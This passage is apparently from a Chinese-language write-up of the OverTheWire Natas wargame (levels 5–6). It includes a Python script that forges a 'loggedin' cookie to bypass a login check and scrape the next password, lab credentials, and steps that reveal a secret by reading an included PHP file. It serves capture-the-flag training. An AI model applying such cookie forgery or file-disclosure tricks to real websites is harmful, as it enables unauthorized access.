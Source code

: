         import requests as req
        import re

        from requests.sessions import session

        user = "natas5"
        passwd = "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq"

        url = "http://%s.natas.labs.overthewire.org/" % user
        
        cookies = {'loggedin': '1'}
        
        response = req.get(url, auth=(user, passwd), cookies=cookies)
        
        # TODO: 看此網站的 cookies
        # content = response.cookies
        
        content = response.text
        
        answer = re.findall("The password for natas6 is(.*)</div>", content)[0]
        print(answer)
        ```

# <span class="bigTitle">Level6</span>
- username: natas6
- password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
- url: http://natas6.natas.labs.overthewire.org/
- Solution
    - 一開始我直接去看題目中的textbox的source code，發現你輸入的東西會用POST method 將你輸入的東西submit到後端，然後再去看後端的source code(點View sourcecode)
        ![](https://i.imgur.com/E8XIVzT.png)
    - 然後就會看到這段PHP code，它就是如何判斷你輸入的字串有沒有跟原本的&#36;secret一樣，要true才會出現Flag，然後又發現這段code中有include一個叫做secret.inc的檔案，連進去就會看到&#36;secret的value
        ![](https://i.imgur.com/UqsxeBb.png)
    - 再把它輸入到textbox裡面submit出去，就可以得到Flag了
        ![](https://i.imgur.com/YmI43Tt.png)
        ![](https://i.imgur.com/NlXL9bj.png)
        ![](https://i.imgur.com/LuQOqFn.png)
    - Python :
        ```python=
        #! /usr/bin/env python3
		# -*- coding: utf-8 -*-

		import requests as req
		import re

		user = "natas6"
		passwd = "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1"
